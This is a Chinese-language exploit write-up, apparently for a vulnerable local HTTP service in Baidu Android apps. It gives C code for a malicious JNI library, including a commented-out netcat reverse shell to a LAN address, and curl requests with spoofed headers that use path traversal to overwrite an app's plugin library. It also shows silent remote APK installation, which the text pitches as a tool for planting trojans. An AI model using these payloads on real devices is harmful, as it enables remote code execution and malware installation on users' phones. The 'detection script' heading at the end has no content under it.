 创建一个动态链接库包括以下代码
```
	jint JNICALL JNI_OnLoad(JavaVM* vm, void* reserved)
	{
	    JNIEnv* env = NULL;
	    jint result = -1;
	    int ret;
	    if ((*vm)->GetEnv(vm, (void**) &env, JNI_VERSION_1_4) != JNI_OK) {
	        return -1;
	    }
	    /* success -- return valid version number */
	    result = JNI_VERSION_1_4;
	    /* 反弹shell */
	    //ret = system("nc 192.168.8.163 8088|/system/bin/sh|nc 192.168.8.163 9999");
	    ret = system("id > /data/data/com.baidu.input/jni_id.txt");
	    LOGI("ret value of system is %d",ret);

	    return result;
	}
```	
	
追加到原版librabjni_V2_1_0.so中

	echo hellojni.so > librabjni_V2_1_0.so
	
../../../data/data/com.baidu.input/app_megapp/com.baidu.input.plugin.kit.qrcode/lib

curl -e http://m.baidu.com -H "remote-addr: 127.0.0.1" http://192.168.1.102:6259/downloadfile?downloadurl=http://192.168.1.50/librabjni_V2_1_0.so&callback=123&savepath=../../../data/data/com.baidu.input/app_megapp/com.baidu.input.plugin.kit.qrcode/lib&filesize=1233&mcmdf=inapp_xxx&querydown=download

```
cat /data/data/com.baidu.input/jni_id.txt     
uid=10158(u0_a158) gid=10158(u0_a158) groups=1015(sdcard_rw),1028(sdcard_r),3002(net_bt),3003(inet),50158(all_a158) context=u:r:untrusted_app:s0
```

利用2:远程静默安装 apk (需用户授予 root 权限,如果鉴权成功静默安装,鉴权失败则提示安装,种马/推广利器)

之前的方法是uploadfile:

```
curl -F file=@1.apk -e http://m.baidu.com -H "remote-addr: 127.0.0.1" http://192.168.1.102:40310/uploadfile\?install_type\=all\&callback\=123\&mcmdf\=inapp_123\&Filename\=1.apk\&
```

现在可以换成downloadfile: (downloadfile比uploadfile在百度系的 app 出现率要高,比如百度输入法就中就把uploadfile接口阉割了)

```
curl -e http://m.baidu.com -H "remote-addr: 127.0.0.1" http://192.168.1.102:40310/downloadfile?downloadurl=http://192.168.1.50/1.apk&callback=123&savepath=../../../sdcard&filesize=1233&mcmdf=inapp_xxx&querydown=download
```

**检测脚本**

---
